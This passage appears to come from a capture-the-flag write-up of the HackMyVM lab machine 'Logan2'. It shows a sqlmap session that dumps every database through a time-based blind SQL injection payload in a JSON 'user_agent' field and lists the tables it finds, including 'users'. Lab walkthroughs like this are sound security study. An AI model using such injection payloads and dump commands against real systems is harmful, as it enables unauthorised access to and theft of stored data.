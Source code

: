 I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Logan2]
└─$ sqlmap -r sqli.txt --dump-all --risk 3 --level 5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   'https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:45:29 /2023-10-12/

[13:45:29] [INFO] parsing HTTP request from 'sqli.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[13:45:34] [INFO] resuming back-end DBMS 'mysql' 
[13:45:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: { "user_agent": "1' AND (SELECT 9966 FROM (SELECT(SLEEP(5)))OcQg) AND 'eoXp'='eoXp" }
---
[13:45:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.57
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:45:34] [INFO] sqlmap will dump entries of all tables from all databases now
[13:45:34] [INFO] fetching database names
[13:45:34] [INFO] fetching number of databases
[13:45:34] [INFO] resumed: 2
[13:45:34] [INFO] resumed: information_schema
[13:45:34] [INFO] resumed: logan
[13:45:34] [INFO] fetching tables for databases: 'information_schema, logan'
[13:45:34] [INFO] fetching number of tables for database 'logan'
[13:45:34] [INFO] resumed: 3
[13:45:34] [INFO] resumed: browser
[13:45:34] [INFO] resumed: comments
[13:45:34] [INFO] resumed: users
[13:45:34] [INFO] fetching number of tables for database 'information_schema'
[13:45:34] [INFO] resumed: 79
[13:45:34] [INFO] resumed: ALL_PLUGINS
[13:45:34] [INFO] resumed: APPLICABLE_ROLES
[13:45:34] [INFO] resumed: CHARACTER_SETS
[13:45:34] [INFO] resumed: CHECK_CONSTRAINTS
[13:45:34] [INFO] resumed: COLLATIONS
[13:45:34] [INFO] resumed: COLLATION_CHARACTER_SET_APPLICABILITY
[13:45:34] [INFO] resumed: COLUMNS
[13:45:34] [INFO] resumed: COLUMN_PRIVILEGES
[13:45:34] [INFO] resumed: ENABLED_ROLES
[13:45:34] [INFO] resumed: ENGINES
[13:45:34] [INFO] resumed: EVENTS
[13:45:34] [INFO] resumed: FILES
[13:45:34] [INFO] resumed: GLOBAL_STATUS
...
```
{: .nolineno}
